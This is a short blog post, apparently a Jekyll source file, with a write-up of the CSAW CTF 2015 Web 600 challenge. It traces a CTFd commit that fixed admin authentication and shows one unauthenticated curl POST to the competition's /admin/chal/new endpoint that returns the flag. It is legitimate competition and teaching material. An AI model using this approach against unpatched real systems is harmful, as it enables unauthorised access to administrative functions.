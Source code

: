 ```yaml
---
layout: post
title: "CSAW CTF 2015 - Web 600 Writeup"
date: 2015-09-21 18:00
comments: true
categories: 
- csaw2015
- writeup
- ctf
---
```

<img src="{{root_url}}/images/headers/csaw_600.png"/>

This one was surprisingly easy if you knew where to look.

For this challenge, we were presented with a hint that indicated there was a vulnerability in the code used to run the CSAW CTF. I remember seeing a while back that the platform was [open-sourced](https://github.com/isislab/CTFd).

When looking for bugs in open-source projects, both Issues and Commits are good places to start out. In this case, we see [a commit](https://github.com/isislab/CTFd/commit/9578355143d7af675fc4776b0f2de802be91e261) recently made with the message "Fix authentication for certain admin actions"

The ```/admin/chal/new``` function would be pretty dangerous since it might allow us to upload a file. Let's see what happens if we make a POST to that endpoint:

```
jordan@temp:~$ curl https://ctf.isis.poly.edu/admin/chal/new -XPOST
flag{at_least_it_isnt_php}
```

Easy enough.

Jordan ([@jw_sec](https://twitter.com/jw_sec))

